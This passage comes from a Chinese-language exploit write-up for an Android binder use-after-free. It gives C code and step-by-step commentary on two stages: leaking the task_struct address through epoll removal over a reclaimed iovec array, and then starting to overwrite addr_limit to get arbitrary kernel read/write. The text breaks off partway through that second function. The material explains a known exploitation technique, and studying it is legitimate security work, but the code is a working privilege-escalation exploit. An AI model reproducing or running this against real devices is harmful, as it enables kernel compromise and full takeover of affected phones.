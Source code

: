 ```c

  printf("PARENT: Finished calling READV\n");
  int status;
  if (wait(&status) != fork_ret) err(1, "wait");

  current_ptr = *(unsigned long *)(page_buffer + 0xe8);
  printf("current_ptr == 0x%lx\n", current_ptr);
}
```
- 进行`EPOLL_CTL_ADD`，添加对`binder_fd`的监听事件

- 初始化`iovec_array`，并填充构造数据

- 创建`pipe`并设定好`buffer`，用于之后父子进程通信

- fork生成子进程，子进程一开始sleep了两秒，所以继续看父进程

- 进行`BINDER_THREAD_EXIT`，此时`binder_thread`结构体已被释放

- 父进程调用`writev`（因为`writev`的特性，`binder_thread`被free的内存由`iovce_array[IOVEC_ARRAY_SZ]`占位），从`iovec_array`读取数据写入`pipefd[1]`，根据`iovec_array`构造的数据可知，从`iovec_array[9]`及以前的内容都为0，所以`writev`从`iovec_array[10]`开始读取，也就是将`dummy_page_4g_aligned`指向的0x1000大小的无用数据写入管道中，由于管道大小也为0x1000所以writev阻塞，此时转到子进程

- 由于`binder_thread`已被构造的数据占位，所以目前内存中的情况如下：</b>![](./img/inside-in.png)

- 此时子进程调用`EPOLL_CTL_DEL`触发uaf，进入`remove_wait_queue`后`dummy_page_4g_aligned`绕过了自旋锁检查，进行删除链表项的操作时`wait.task_list.next`和`wait.task_list.prev`都指向自身`(wait.task_list)`，所以现在`iovec_array[10].iov_len`和`iovec_array[11]`.`iov_base`都保存了泄露的地址

- 然后子进程进行read操作，将刚才父进程写入的无用数据读出以解除父进程的阻塞状态，子进程结束，转到父进程

- 父进程继续未完成的`writev`函数，将`iovec_array[11].iov_base`指向的0x1000大小的数据写入管道，而此时`iovec_array[11].iov_base`的数据已经在子进程中被覆盖为了泄露的wait地址，所以此时读取的是wait结构体之后的数据

- 调用read函数，将读取到的数据保存到`page_buffer`中

- 根据`task_struct`在`binder_thread`中的偏移，计算出`task_struct`的地址，保存在`current_ptr`中，函数结束

##### 5.1.3 覆盖addr_limit
```c
void clobber_addr_limit(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  unsigned long second_write_chunk[] = {
    1, /* iov_len */
    0xdeadbeef, /* iov_base (already used) */
    0x8 + 2 * 0x10, /* iov_len (already used) */
    current_ptr + 0x8, /* next iov_base (addr_limit) */
    8, /* next iov_len (sizeof(addr_limit)) */
    0xfffffffffffffffe /* value to write */
  };

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10; /* iov_len of previous, then this element and next element */
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8; /* should be correct from the start, kernel will sum up lengths when importing */

  int socks[2];
```
